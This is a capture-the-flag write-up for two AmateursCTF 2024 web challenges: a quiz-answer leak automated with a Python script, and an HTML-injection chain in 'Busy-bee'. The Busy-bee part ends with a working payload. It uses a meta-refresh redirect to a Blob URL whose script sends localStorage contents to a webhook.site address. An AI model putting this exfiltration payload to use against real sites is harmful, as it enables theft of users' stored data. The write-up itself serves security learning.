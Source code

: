 ```yaml
---
date: '2025-02-05T15:19:06+07:00'
draft: false
title: 'AmateursCTF 2024'
hideSummary: true
type: "writeups"
description: "Writeup for some web challenge for AmateursCTF 2024"
---
```

## TL;DR
This is a writeup for some web challenge for AmateursCTF 2024
## Lahoot
This is a very fun challenge, just for trolling.
By dirsearch, we will find a hidden endpoint which is /docs.
![img1](writeups/AmateursCTF2024/image1.png)

Wow, there is /api/question/{question_id}

And the id is in the HTML itself, in the attribute data-id

![img2](writeups/AmateursCTF2024/image2.png)

I plugged 1 question id in, and get this

![img3](writeups/AmateursCTF2024/image3.png)
Finally, we can use python script to automate all of these.

```python
import requests
import re
import urllib.parse


session = requests.Session()

url = 'http://lahoot-async.amt.rs/'
r = session.post(url + 'session', data={'username': 'testtesttest18'})
our_session = session.cookies.get('session')
r = session.get(url + 'question')
print(our_session)
id = re.search(r"data-id =\s*\"([^\"]*)", r.text).group(1)
print(id)
r = requests.get(url + 'api/question/' + id)
ans = (r.json()["correctAnswer"])
for i in range(200):
    print(ans)
    r = session.post(url + 'question', data={'answer': ans})
    id = re.search(r"data-id =\s*\"([^\"]*)", r.text).group(1)
    print(id)
    r = requests.get(url + 'api/question/' + id)
    ans = (r.json()["correctAnswer"])

```

## Busy-bee
### Analysis
After looking around in index.js, I found interesting function which can change HTML.
```javascript
const putLog = (msg) => {
  const p = document.createElement("p");
  p.setHTML(msg);
  log.appendChild(p);
};
```
This function is called in a lot of place, but most of them are safe data. But there is a place where untrusted data is passed in.
```javascript
...
} else if (e.data.type === "error") {
        putLog(e.data.msg);
        res();
      }
...
```
So we will have HTML injection.
### HTML INJECTION
So how could we get that e.data.type === "error"?
In worker.js, we have this
```javascript
const tickBee = (e) => {
  try {
    const action = beeFn(e.data.world, e.data.me);
    postMessage({ type: "action", action });
  } catch (err) {
    postMessage({
      type: "error",
      msg: `<span class="text-red-500">&gt; A bee has crashed! ${err.toString()}</span>`,
    });
  }
};
```
The function beeFn() must throw an error, and the error will be parsed directly in the msg.
```javascript
throw new Error("<b>Injected</b>");
```
![img4](writeups/AmateursCTF2024/image4.png)
### setHTML()
Can we inject script tag? Sadly no, anything XSS will be filtered by setHTML(). Is this a dead end?
### Blob
After the CTF ended, in discord, someone said that he solved this by using meta tag and Blob. Blob?
The Blob object represents a blob, which is a file-like object of immutable, raw data.
Combining with URL.createObjectURL(), we can “host a simple server”.

And blob URL doesn't have different origin. That's why we can access the window.localStorage.
So by using Blob, we can create a javascript script to make a fetch to our webhook, and retrieve the flag.

Luckily, meta tag isn't blocked at all, so we can use meta tag to redirect to our blob URL.

```html
<meta http-equiv="refresh" content="0;url=???">
```
Combine everthing, we have:
```javascript
const  htmlcontent = `<script>
    fetch('https://webhook.site/e6ac0f5c-05bb-4b0d-ad0b-0a5595a40691?c=' + window.localStorage.getItem('flag'), {
        method: 'GET',
        mode: 'no-cors'
    });
</script>`;
const blob = new Blob([htmlcontent], { type: 'text/html' });
const blobURL = URL.createObjectURL(blob);
throw new Error('<meta http-equiv="refresh" content="0; url='+blobURL+'">');
```
